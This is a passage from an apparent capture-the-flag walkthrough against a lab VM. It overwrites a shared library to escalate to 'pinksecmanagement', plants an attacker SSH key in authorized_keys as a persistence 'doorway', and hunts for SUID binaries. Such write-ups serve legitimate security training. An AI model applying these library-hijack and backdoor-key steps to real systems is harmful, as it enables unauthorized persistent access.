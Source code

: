 
compile our new code over libpinksec.so

    gcc -fPIC -shared -nostartfiles -o /lib/libpinksec.so ~/bin/libpinksec.c

Execute `pinksecd` 

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817150429_image.png)


we have escalated to “pinksecmanagement”

Lets, create another SSH doorway, that we’ll be able to quickly reconnect if anything were to happen.

local kali:

    ssh-keygen -t rsa -b 2048

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817307577_image.png)


target create our .ssh/authorized_keys 


    mkdir /home/pinksecmanagement/.ssh
    echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC10iRBva9qAHYuq4kcOeomPEU792Ml7WnudvZnz/FvOb+1G8Xpu9xeXduynT+ECey2Y8m+OzBEzW35aUpTZolJ96BpjCmPh14xz6/VToB9NmI32VrfG5iPK5LLsfb3IiwIKninLfKf0sAL/O6iWb4gcT4vrX1s5c0OkphfuOPw/f6TtpTx1UANeoz7zTNEb0z0RnIZZgcQRdemDyV/9LupXiiiYmEN34qybqlyMRbSE/VxAt5iru/qfZrovkjSb6OxqTGo2Ac8LtqhP4c4WiGqaKIuxjZIFhfOd7yWkPwcRzhHAKKW3prrt5FLGc9bRBO8yIzq4l1Qod/j6cj7zcpb root@execatwill  > /home/pinksecmanagement/.ssh/authorized_keys

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817734389_image.png)


Connect via ssh to “pinksecmanagement”

    ssh -i pinksecman pinksecmanagement@192.168.56.118 -p 5555

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817813694_image.png)


Enumeration re-begins, we found a SUID bit before lets see if another exists

    find ./ -perm -4000

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553817975763_image.png)


`PSMCCLI` definitely stands out 

navigate to location:

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553818046735_image.png)


and it just so happens to be owned by the one and only “pinky” 

![Pinky Cadillac GIF - Pinky Cadillac FridayAfterNext GIFs](https://media.tenor.com/images/3c1440ec7a22f6f8a97db08c4897dfa0/tenor.gif)

